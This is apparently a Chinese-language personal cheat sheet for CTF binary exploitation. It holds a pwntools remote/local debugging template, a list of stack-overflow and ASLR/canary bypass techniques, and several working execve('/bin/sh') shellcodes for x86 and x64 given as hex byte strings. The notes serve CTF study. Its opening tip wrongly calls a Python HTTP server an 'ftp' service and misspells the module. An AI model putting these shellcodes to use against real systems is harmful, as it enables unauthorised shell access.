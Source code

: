 # 鶸的PWN小结
P.S.实在太菜，所以都很基础，慢慢维护
## 快速开启ftp服务器

```
python -m SimpleHTTPSerber
```
会在当前运行目录下开启ftp服务
## PWNTool 远程/本地调试模板

```python
#!/usr/bin/env python2
# coding:utf-8
from pwn import *
import os

VERBOSE = 1
DEBUG   = 1
LOCAL   = 0

target = 'target'
libc   = []         # 加载指定libc
break_points = []
remote_addr = '39.107.33.43'
remote_port = 13572

def hint(break_points=[]):
    if LOCAL:
        out = 'gdb attach ' + str(pwnlib.util.proc.pidof(target)[0])
        for bp in break_points:
            out += " -ex 'b *{}'".format(hex(bp))
        raw_input(out+" -ex 'c'\n" if break_points else out+"\n") 
if libc:
    elf = ELF(libc[0])
    gadget = lambda x: next(elf.search(asm(x, os='linux', arch='amd64')))

if LOCAL:
    if libc:
        for libc_ in libc:
            os.environ['LD_PRELOAD'] = os.environ['PWD'] + '/' + libc_ + ':'
    p = process('./'+target)
    if DEBUG:
        out =  'gdb attach ' + str(pwnlib.util.proc.pidof(target)[0])
        for bp in break_points:
            out += " -ex 'b *{}'".format(hex(bp))
        raw_input(out+" -ex 'c'\n" if break_points else out+"\n")
else:
    p = remote(remote_addr,remote_port)

if VERBOSE: context.log_level = 'DEBUG'

```

## Return to dl_resolve

http://pwn4.fun/2016/11/09/Return-to-dl-resolve/
这个写的比较清楚
## shellcraft
编写shellcode

## linux保护机制的绕过方法

现代栈溢出利用技术基础：ROP

利用signal机制的ROP技术：SROP

没有binary怎么办：BROP 、dump bin

劫持栈指针：stack pivot

利用动态链接绕过ASLR：ret2dl resolve、fake linkmap

利用地址低12bit绕过ASLR：Partial Overwrite

绕过stack canary：改写指针与局部变量、leak canary、overwrite canary

溢出位数不够怎么办：覆盖ebp，Partial Overwrite

现代栈溢出利用技术基础:ROP

## 23字节shellcode
搜索地址【http://shell-storm.org/online/Online-Assembler-and-Disassembler/】
```
char *shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56"
    "\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"
```

```

"\x33\xd2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
```
##19字节shellcode（x64）
“\x6a\x3b\x58\x99\x52\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05”
##shellcode(x86)
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
## IDA keypatch问题相关

https://github.com/keystone-engine/keypatch/issues/28

